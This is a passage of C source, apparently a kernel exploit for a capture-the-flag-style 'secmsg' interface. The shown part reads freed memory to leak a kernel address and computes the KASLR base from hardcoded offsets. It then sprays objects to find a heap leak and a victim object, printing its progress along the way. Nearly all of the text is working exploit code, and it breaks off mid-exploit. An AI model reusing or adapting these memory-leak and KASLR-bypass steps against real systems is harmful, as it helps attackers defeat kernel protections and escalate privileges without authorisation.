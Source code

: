 ```c
    read_secmsg(leak_idx, buf2, 0x100);

    hexprint(buf2, 0x100);

    kaslr_leak = ((uint64_t*)buf2)[3];

    printf("[*] kaslr_leak : 0x%lx\n", kaslr_leak);

    if ((kaslr_leak & 0xffffffff00000fffULL) == 0xffffffff00000968ULL) {
        kaslr_base = kaslr_leak - 0x1275968;
        printf("[*] kaslr_base : 0x%lx\n", kaslr_base);
    } else if ((kaslr_leak & 0xffffffff00000fffULL) == 0xffffffff00000860ULL) {
        kaslr_base = kaslr_leak - 0x1275860;
        printf("[*] kaslr_base : 0x%lx\n", kaslr_base);
    } else {
        delete_secmsg(leak_idx);
        exit(1);
    }

    sleep(2);

    delete_secmsg(leak_idx);

    puts("[+] freed");
    sleep(1);
    /* */

    /*
        Leak heap
    */
    for (int i = 0; i < 7; i++) {
        *((uint32_t*)buf) = i;
        add_secmsg(buf, 0x100, 1001 + i);
    }

    for (int i = 0; i < 7; i++) {
        read_secmsg(i, buf2, 0x200 - 44);
        read_secmsg(i, buf2, 0x100);

        q1 = ((uint64_t*)buf2)[0];
        heap_leak_1 = ((uint64_t*)buf2)[1];
        heap_leak_2 = ((uint64_t*)buf2)[2];

        if (q1 == 0x0000000fffffffe0ULL &&
            heap_leak_1 == heap_leak_2  &&
            ((heap_leak_1 & 0xffff000000000000) == 0xffff000000000000)) {
            found = 1;
            victim_idx = ((uint32_t*)buf2)[11];
            printf("[*] heap leak 1 : 0x%lx\n", heap_leak_1);
            printf("[*] heap leak 2 : 0x%lx\n", heap_leak_2);
            printf("[*] victim idx : %d\n", victim_idx);
            hexprint(buf2, 0x100);
            break;
        }
    }

    if (!found)
        err_exit(1, "no heap leak");

    sleep(3);
    /* */

    /*
```